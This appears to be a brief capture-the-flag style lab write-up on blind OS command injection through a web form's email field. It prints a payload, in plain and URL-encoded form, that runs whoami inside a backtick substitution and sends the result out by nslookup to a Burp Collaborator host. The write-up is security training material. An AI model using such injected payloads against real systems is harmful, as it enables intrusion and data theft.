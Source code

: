 ```yaml
---
tags: ["nslookup", "commmand injection"]
---
```


--> This lab is same as Lab-4 but here we have to execute the os command in the DNS lookup which we can do with the backtick so i set up my burp collaborator server and used this payload in every field :

```bash
 & nslookup `whoami`.server.burpcollaborator.net &
#After encoding
+%26+nslookup+`whoami`.hm79ndstkro1octlc11atpw9w02qqf.burpcollaborator.net+%26
```

--> And after using it in `email` field i got the DNS lookup with the username!

![](Attachments/Pastedimage20220120125310.png)

--> And we solved the lab!

![](Attachments/Pastedimage20220120125352.png)
